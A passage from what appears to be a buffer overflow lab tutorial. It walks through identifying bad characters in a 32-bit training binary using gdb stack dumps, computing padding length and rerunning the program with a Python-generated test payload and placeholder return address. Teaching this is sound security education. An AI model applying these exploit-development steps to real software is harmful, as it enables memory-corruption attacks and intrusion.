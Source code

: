 Now we can look at the **Stack**:
```
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

Here we recognize at which address our "\x55" begins. From here, we can go further down and look for the place where our CHARS start.
```
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

If we look closely at it, we will see that it starts with `\x01` instead of `\x00`. We have already seen the warning during the execution that the **null byte** in our input was ignored. So we can note this character, remove it from our variable CHARS and adjust the number of our `\x55`.
 
Let's see how many we need:
```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```

Now send the CHARS without Null Byte:
```
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```
